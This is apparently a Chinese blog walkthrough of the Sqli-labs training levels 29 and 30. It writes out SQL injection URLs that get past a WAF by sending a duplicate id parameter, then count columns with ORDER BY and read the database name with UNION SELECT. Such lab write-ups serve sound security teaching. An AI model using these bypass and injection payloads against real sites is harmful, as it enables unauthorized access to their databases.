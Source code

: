 直接使用是不正确的，搭建jspstudy也可以不过太麻烦了（ps：小声BB：我也不会，尝试搭建jspstudy花费太多时间，走弯路emm...）

**正确使用29关**<br />**打开第二十九关的文件夹可以发现有一个login.php的文件**<br />![](https://img-blog.csdnimg.cn/20200723152823513.png#crop=0&crop=0&crop=1&crop=1&id=eGXfn&originHeight=130&originWidth=334&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
我们只需要在url前面加上login.php即可<br />http://www.web.com/sql/Less-29/login.php

**查找注入点**<br />http://www.web.com/sql/Less-29/login.php?id=1'<br />此时报错<br />![](https://img-blog.csdnimg.cn/2020072315331289.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=ZpEEy&originHeight=625&originWidth=731&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**把你这个愚蠢的黑客赶走<br />WAF成功阻挡攻击**

**说明此时我们的参数被WAF阻挡，此时我们加入第二个参数**<br />http://www.web.com/sql/Less-29/login.php?id=1&id=1'<br />报错<br />![](https://img-blog.csdnimg.cn/20200723154158412.png#crop=0&crop=0&crop=1&crop=1&id=Pnt6x&originHeight=46&originWidth=1218&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**进行注释，成功，说明存在注入**<br />http://www.web.com/sql/Less-29/login.php?id=1&id=1'--+<br />![](https://img-blog.csdnimg.cn/20200723154228686.png#crop=0&crop=0&crop=1&crop=1&id=QUug4&originHeight=142&originWidth=436&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看列数**<br />http://www.web.com/sql/Less-29/login.php?id=1&id=1' order by 3--+<br />当为4时报错，为3返回正确，说明有3列<br />![](https://img-blog.csdnimg.cn/20200723154406982.png#crop=0&crop=0&crop=1&crop=1&id=KvRoe&originHeight=161&originWidth=418&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看当前库**<br />http://www.web.com/sql/Less-29/login.php?id=1&id=-1' union select 1,2,database()--+<br />![](https://img-blog.csdnimg.cn/20200723154503375.png#crop=0&crop=0&crop=1&crop=1&id=eTspA&originHeight=154&originWidth=433&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**以下步骤与Sqli-labs-Less-1相同，不进行详细叙述**


# Sqli-labs-Less-30 
![](https://img-blog.csdnimg.cn/20200723155904332.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=t3P4D&originHeight=357&originWidth=1142&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

与Sqli-labs-Less-29 一样，也是属于WAF的练习<br />使用http://www.web.com/sql/Less-30/login.php

**判断注入点**<br />http://www.web.com/sql/Less-30/login.php?id=1'<br />报错<br />![](https://img-blog.csdnimg.cn/20200723155243802.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=BZkxd&originHeight=606&originWidth=685&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**说明此时我们的参数被WAF阻挡，此时我们加入第二个参数**<br />http://www.web.com/sql/Less-30/login.php?id=1&id=1'<br />登录成功，不存在注入<br />http://www.web.com/sql/Less-30/login.php?id=1&id=1"<br />报错，进行注释后登录成功，说明存在注入点<br />http://www.web.com/sql/Less-30/login.php?id=1&id=1"--+<br />![](https://img-blog.csdnimg.cn/20200723155422621.png#crop=0&crop=0&crop=1&crop=1&id=Jd1z6&originHeight=155&originWidth=439&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看列数**<br />http://www.web.com/sql/Less-30/login.php?id=1&id=1" order by 3--+<br />当为4时报错，为3返回正确，说明有3列<br />![](https://img-blog.csdnimg.cn/20200723155547456.png#crop=0&crop=0&crop=1&crop=1&id=sd43O&originHeight=43&originWidth=332&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
